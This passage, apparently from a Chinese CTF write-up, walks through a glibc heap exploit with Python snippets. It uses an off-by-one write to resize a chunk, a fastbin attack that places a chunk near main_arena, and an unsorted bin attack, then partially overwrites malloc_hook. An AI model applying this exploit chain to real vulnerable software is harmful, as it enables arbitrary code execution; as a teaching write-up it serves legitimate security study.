 释放掉 chunk_1后再申请回来，chunk_1 过了一遍 unsorted bin，所以 chunk_1 的 fd、bk 里面就有 main_arena 的地址了。

```python
Free(1)
Malloc(0xC8, 1)
```

通过 chunk_0，利用 write_chunk() 里面的 off by one 将 chunk_1 的大小改为 0x71。

```python
over =  'A'*0x18
over += '\x71'
Write(0, over)
```

再分配3个 chunk，大小均为 0x70，chunk_3 与 chunk_2 一起实现 fastbin attack，chunk_4 用来修护攻击后的 fastbin，chunk_5 保护它们不被合并到 top_chunk。

```python
Malloc(0x68, 3)
Malloc(0x68, 4)
Malloc(0x68, 5)
```

以下代码就是进行 fastbin attack

```python
Free(2)
Free(3)
# chunbk_3 -> chunk_2

heap_po = '\x20'
Write(3, heap_po)
# chunk_3 -> chunk_1 -> main_arena

arena_po = "\xed\x1a"
Write(1, arena_po)
# chunk_3 -> chunk_1 -> main_arena - 0x23

Malloc(0x68, 3)
Malloc(0x68, 1)
Malloc(0x68, 0)
# chunk_0 = main_arena - 0x23

Free(4)
Write(4, '\x00')
# repair fastbin
```

利用 unsorted bin 修改 malloc_hook 内容为 main_arean 的地址

```python
Malloc(0xC8, 6)
Malloc(0x18, 7)

Free(6)
po =  'B'*8
po += "\x00\x1B"
Write(6, po)
Malloc(0xC8, 6)

over =  'C'*0x13
over += "\xa4\xd2\xaf"
Write(0, over)
```

